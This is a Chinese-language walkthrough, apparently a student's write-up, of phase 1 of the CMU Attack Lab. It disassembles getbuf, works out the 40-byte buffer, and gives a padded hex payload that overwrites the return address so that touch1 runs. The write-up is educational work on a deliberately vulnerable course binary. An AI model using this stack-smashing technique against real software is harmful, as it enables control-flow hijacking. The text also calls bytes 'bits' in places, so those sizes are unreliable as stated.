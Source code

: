 我们要做的是调用程序中的另一个函数

```c
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

也就是在 `getbuf()` 函数返回的时候，执行 `touch1()` 而不是返回 `test()`。下面是一些建议：

+ 本关所需要的所有信息都可以在 `ctarget` 的汇编代码中找到
+ 具体要做的是把 `touch1` 的开始地址放到 `ret` 指令的返回地址中
+ 注意字节的顺序
+ 可以用 gdb 在 `getbuf` 的最后几条指令设置断点，来看程序有没有完成所需的功能
+ 具体 `buf` 在栈帧中的位置是由 `BUFFER_SIZE` 决定的，需要仔细察看来进行判断

接下来我们就开始解题。

首先是反编译成汇编代码：`objdump -d ctarget > ctarget.txt`

然后把这个文件传到本地方便查看：`scp dawang@shark.ics.cs.cmu.edu:~/513/target334/ctarget.txt ./`

接下来我们需要确定 `getbuf` 到底创建了多大的缓冲区，检索 `getbuf`，代码如下：

```asm
000000000040181c <getbuf>:
  40181c:	48 83 ec 28          sub    $0x28,%rsp
  401820:	48 89 e7             mov    %rsp,%rdi
  401823:	e8 88 02 00 00       callq  401ab0 <Gets>
  401828:	b8 01 00 00 00       mov    $0x1,%eax
  40182d:	48 83 c4 28          add    $0x28,%rsp
  401831:	c3                   retq   
  401832:	90                   nop
  401833:	90                   nop
```

可以看到这里把 `%rsp` 移动了 `0x28`(40) 位，也就是说，我们的缓冲区有 40 位，再上面的四位就是原来正常需要返回到 `test` 的返回地址（注意看之前的栈帧图），我们要做的就是利用缓冲区溢出把这个返回地址改掉。

于是我们继续搜素，来看看 `touch1` 在哪里：

```asm
0000000000401834 <touch1>:
  401834:	48 83 ec 08          sub    $0x8,%rsp
  401838:	c7 05 9a 3c 20 00 01 movl   $0x1,0x203c9a(%rip)        # 6054dc <vlevel>
```

可以看到地址在 `0x401834` 这里，但是我们要凑够 8 位，就是 `0x00401834`，于是我们需要输入的字符串就可以是这样：

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
34 18 40 00
```
